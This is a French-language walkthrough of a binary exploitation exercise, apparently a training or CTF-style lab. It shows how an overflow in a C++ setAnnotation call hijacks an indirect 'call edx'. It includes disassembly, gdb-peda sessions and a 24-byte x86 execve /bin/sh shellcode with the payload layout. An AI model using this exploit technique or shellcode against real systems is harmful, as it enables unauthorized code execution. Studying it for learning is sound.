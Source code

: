 ### B: Creation de l'exploit

* L'input malicieux doit être composé de la manière suivante:
=> 1 addresse du shellcode => 2 shellcode => 3 padding restant => 4 addresse de notre input

* Reprenons le bout de code suivant du main:
``` shell
  0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
  0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
  0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
  0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
  [...]
  0x08048693 <+159>:	call   edx
```

* Le setAnnotation va manifestement écraser à l'offset 108 l'ESP + 10 
* Eax va ensuite prendre cette valeur (la 4ème), qui sera l'addresse de notre input, donc l'addresse de notre 1
* Ensuite a +140 on déréférence une première fois eax, donc on met l'addresse contenue dans 1 dans eax.
* Il se trouve que cette addresse, c'est notre 2 (input +4), l'addresse du shellcode.
* Ensuite a +142 on déréférence encore l'addresse dans 1, mettant donc notre shellcode dans edx.
* Pour terminer, on call edx, c'est à dire notre shellcode.

> BIEN. Nous avons donc besoin de l'addresse de notre input, un shellcode, et c'est tout. C'est parti.

```shell
  # On met un breakpoint avant que eax ne bouge a ESP + 16, à main + 136
  gdb-peda$ b * main+136
    Breakpoint 1 at 0x8048674

  # On print ensuite eax, qui est l'addresse de notre input à ce moment
  gdb-peda$ b * main+136
    Breakpoint 1 at 0x804867c
  gdb-peda$ r AAAA
    [----------------------------------registers-----------------------------------]
    # BIM on l'a
    EAX: 0x804a00c ("AAAA")
    [...]
    Breakpoint 1, 0x0804867c in main ()

  # Ensuite le shellcode
  gdb-peda$ shellcode generate x86/linux exec
    # x86/linux/exec: 24 bytes
    shellcode = (
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
        "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
    )
```

* Maintenant construisons!

> input addr en little endian: "\x0c\xa0\x04\x08"\
> input + 4 en little endian: "\x10\xa0\x04\x08"\
> shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"\
> nb_char_pattern = 108 - 4 - 24 = 80\
